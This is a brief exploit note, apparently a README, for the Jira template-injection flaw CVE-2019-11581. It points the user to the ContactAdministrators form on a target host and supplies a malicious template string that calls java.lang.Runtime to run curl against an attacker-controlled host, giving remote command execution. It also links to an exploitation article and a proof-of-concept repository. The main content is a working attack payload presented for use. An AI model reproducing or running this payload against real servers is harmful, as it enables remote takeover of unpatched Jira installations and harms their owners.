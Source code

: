### go to
https://<rhost>/secure/ContactAdministrators!default.jspa  

### enter malicious string into form
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl https://<lhost>').waitFor()
```

### References
https://thehackerish.com/jira-vulnerabilities-and-how-they-are-exploited-in-the-wild  
https://github.com/kobs0N/CVE-2019-11581.git  

